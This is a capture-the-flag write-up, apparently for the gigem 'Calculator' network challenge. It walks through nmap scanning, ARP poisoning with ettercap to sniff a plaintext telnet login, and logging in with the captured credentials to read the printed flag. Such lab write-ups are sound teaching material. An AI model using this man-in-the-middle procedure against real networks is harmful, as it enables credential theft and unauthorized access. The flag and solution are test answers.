





# Calculator
Network/Pentest

## Challenge 

Using a teletype network protocol from the 70s to access a calculator from the 70s? Far out!

Note to new players: You won't see anything in Wireshark / tcpdump when you initially connect. (i.e. packets are sent unicast on a bridged network)

- Wireshark
- tcpdump
- ettercap

Difficulty: easy

2/23 8:56 am: Added suggested tools

[calculator.ovpn](calculator.ovpn)

## Solution

### Setup

Install OpenVPN

	$ sudo apt-get install -y openvpn

Start OpenVPN with the given configuration

	$ sudo openvpn calculator.ovpn

### Scan Hosts

Scan subnet and we find 2 hosts: `172.30.0.2` and `172.30.0.3`

	$ nmap -sP 172.30.0.0/28

Scan for ports

	~$ nmap -sV 172.30.0.2
	Not shown: 999 closed ports
	PORT   STATE SERVICE VERSION
	23/tcp open  telnet  Linux telnetd
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	$ nmap -sV 172.30.0.3
	All 1000 scanned ports on 172.30.0.3 are closed

This time we only have Telnet. But we don't have the credentials to log in.

	$ telnet 172.30.0.2
	Trying 172.30.0.2...
	Connected to 172.30.0.2.
	Escape character is '^]'.
	^]
	telnet> send ayt

	[83f3f2557bcd : yes]
	
	Ubuntu 16.04.5 LTS
	83f3f2557bcd login: admin
	Password: 
	Login incorrect

From the description, there is a hint of unicast packets.

Perhaps it is being unicast to the other host (172.30.0.3)

Since telnet passes data in plaintext, we can try to intercept the packets between the user and the server.

### Man in the middle (MITM) attack

> Reference: https://medium.com/secjuice/man-in-the-middle-attack-using-arp-spoofing-fa13af4f4633

Install ettercap and launch the GUI.

	$ sudo apt-get install ettercap-graphical
	$ ettercap -G

We want to sniff the `tap0` interface of our VPN.

- Select ***Sniff > Unified Sniffing***
- Choose Network interface: tap0

---

Next, we can retrieve a list of all hosts.

- Select ***Hosts > Scan for hosts***

Meanwhile in Wireshark, we see that the 2 devices have responded to the ARP request.

---

We will be intercepting the unicast packets between both hosts.

- Select ***Hosts > Host List***
- Choose both IP addresses and ***Add to Target***

You will see this in the logs

	Randomizing 15 hosts for scanning...
	Scanning the whole netmask for 15 hosts...
	2 hosts added to the hosts list...
	Host 172.30.0.2 added to TARGET1
	Host 172.30.0.3 added to TARGET2

---

Now it is time to poison the ARP cache of the targets

- Select ***Mitm > ARP poisoning***
- Check ***Sniff remote connections***

You will see this in the logs

	ARP poisoning victims:
	 GROUP 1 : 172.30.0.2 02:42:65:53:D1:AE
	 GROUP 2 : 172.30.0.3 02:42:DE:03:E4:7A

As you can see, the ARP poisoning has occurred successfully with "duplicate use of 172.30.0.2 detected" seen in Wireshark.

Now continue capturing all the Telnet Data and then stop the Wireshark process after some time.

### Extract the data

We want to capture the user (172.30.0.3) sending their credentials to the telnet server destination (172.30.0.2).

Enter this filter

	ip.dst==172.30.0.2

Now looking through carefully, we see a series of packets with the credentials

	Telnet
	    Data: ali
	Telnet
	    Data: ce
	Telnet
	    Data: \n
	Telnet
	    Data: 5
	Telnet
	    Data: 83
	Telnet
	    Data: 18
	Telnet
	    Data: 00
	Telnet
	    Data: 8
	Telnet
	    Data: \n

Hence

	Username: alice
	Password: 58318008

Login and get the flag!

	~$ telnet 172.30.0.2

	Ubuntu 16.04.5 LTS
	83f3f2557bcd login: alice
	Password: 58318008

	Last login: Wed Feb 27 09:26:35 UTC 2019 from z7ast123_calculator_client_1.z7ast123_calculator_default on pts/0
	Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-1032-aws x86_64)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	alice@83f3f2557bcd:~$ ls
	alice@83f3f2557bcd:~$ ls -la
	total 20
	drwxr-xr-x 1 alice alice   41 Feb 27 08:42 .
	drwxr-xr-x 1 root  root    19 Feb 22 13:13 ..
	-rw------- 1 alice alice 3756 Feb 27 09:26 .bash_history
	-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
	-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc
	drwx------ 2 alice alice   34 Feb 27 08:41 .cache
	-rw-r--r-- 1 root  root    40 Feb 22 13:13 .ctf_flag
	-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
	
	alice@83f3f2557bcd:~$ cat .ctf_flag
	gigem{f5ae5f528ed5a9ad312f75bd1d3406a2}
	
## Flag

	gigem{f5ae5f528ed5a9ad312f75bd1d3406a2}
